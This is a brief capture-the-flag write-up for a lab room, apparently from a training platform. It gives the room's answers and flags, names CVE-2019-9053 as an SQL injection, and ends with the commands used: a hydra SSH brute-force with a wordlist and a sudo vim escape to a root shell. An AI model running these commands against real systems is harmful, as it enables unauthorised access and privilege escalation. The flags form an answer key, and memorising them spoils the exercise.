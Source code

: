 # Simple CTF

January 02, 2024

username - mitch
password - secret

salt for pass - 1dac0d92e9fa6bb2	s
-------------------------------------

- How many services are running under port 1000?
	- `2`

- What is running on the higher port?
	- `ssh`

- What's the CVE you're using against the application?
	- `CVE-2019-9053`

- To what kind of vulnerability is the application vulnerable?
	- `sqli`

- What's the password?
	- `secret`

- Where can you login with the details obtained?
	- `ssh`

- What's the user flag?
	- `G00d j0b, keep up!`

- Is there any other user in the home directory? What's its name?
	- `sunbath`

- What can you leverage to spawn a privileged shell?
	- `vim`

- What's the root flag?
	- `W3ll d0n3. You made it!`



hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.107.180:2222

ssh ssh://mitch@10.10.107.180:2222

sudo -l

sudo vim -c ':!/bin/sh'